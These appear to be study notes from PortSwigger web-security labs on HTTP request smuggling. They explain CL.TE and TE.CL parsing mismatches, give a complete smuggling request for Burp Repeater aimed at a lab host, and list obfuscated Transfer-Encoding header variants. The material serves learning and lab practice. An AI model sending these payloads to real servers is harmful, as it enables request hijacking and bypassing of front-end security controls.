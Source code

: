 - The back-end server processes the `Content-Length` header
- determines that the request body is 3 bytes long, up to the start of the line following `8`.
- The following bytes, starting with `SMUGGLED`, are left unprocessed
- the back-end server will treat these as being the start of the next request in the sequence

#### HTTP request smuggling, basic TE.CL vulnerability
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
you need the 2 `\n` at the end -->  bc each HTTP packet must terminate with `\r\n`

### TE.TE behavior: obfuscating the TE header
- the front-end and back-end servers both support the `Transfer-Encoding` header
- but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the `Transfer-Encoding` header. 
For example:
```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
